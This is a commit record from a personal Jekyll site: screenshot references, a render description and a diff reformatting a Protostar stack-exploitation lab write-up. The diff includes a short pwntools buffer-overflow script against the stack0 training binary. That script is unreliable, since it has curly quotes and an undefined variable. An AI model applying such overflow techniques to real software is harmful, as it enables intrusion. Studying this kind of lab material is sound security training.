

Before and after one commit to 90r1ll4/90r1ll4.github.io, a Jekyll site: the page built from pages/tags.md, in a window 1280 px wide and 900 px high, scrolled down 1030 px. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; after the commit the page ends 1460 px from its top, so only the background shows below that; some of the changed text lies outside the part shown.

Commit message:
Update 2022-10-28-protostar-stack.md

````diff
--- a/_posts/2022-10-28-protostar-stack.md
+++ b/_posts/2022-10-28-protostar-stack.md
@@ -1,12 +1,3 @@
----
-layout: post
-title: >
-    Protostar Stack Exploitation 0-4
-tags: [exploit education, exploit, protostar, stack]
----
-
-# PROTOSTAR
-
 # Stack 0
 
 ```
@@ -29,12 +20,12 @@ int main(int argc, char **argv)
 this can be solved by normally overflowing the buffer with 68 A
 NOTE:  apply breakpoint before the cmp or test statement so that you can calculate offset without segmentation fault
 
-``` from pwn import *
+> from pwn import *
 sh=process(’stack0’)
 sh.recvline(timeout=5)
 sh.send(b’A’*68)
 c.recv()
-```
+>
 
 # Stack 01
 
@@ -120,7 +111,7 @@ int main(int argc, char **argv)
 You need to change the value of fp to the win address,
 
 > Note: Volatile is **a qualifier that is applied to a variable when it is declared**. It tells the compiler that the value of the variable may change at any time-without any action being taken by the code the compiler finds nearby.
-
+>
 
 # Stack 4
 
````
